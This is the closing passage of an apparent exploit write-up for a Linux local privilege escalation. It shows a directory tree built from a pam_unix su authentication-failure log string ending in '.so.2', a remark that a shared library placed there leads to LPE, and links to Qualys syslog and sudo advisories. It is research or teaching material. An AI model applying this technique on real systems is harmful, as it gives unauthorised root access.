├── AAAAApam_unix(su-l:auth): authentication failure; logname= uid=1000 euid=1000 tty=
│   └── dev/
│       └── pts/
│           └── 2 ruser=test rhost=  user=root.so.2
```

Where we created the shared library from inside pts.

This will lead to LPE.


### Resources

* https://linuxcommand.org/lc3_man_pages/exech.html
* https://linux.die.net/man/3/snprintf
* https://www.man7.org/linux/man-pages/man3/syslog.3.html
* https://www.man7.org/linux/man-pages/man1/su.1.html
* https://www.qualys.com/2024/01/30/cve-2023-6246/syslog.txt
* https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt

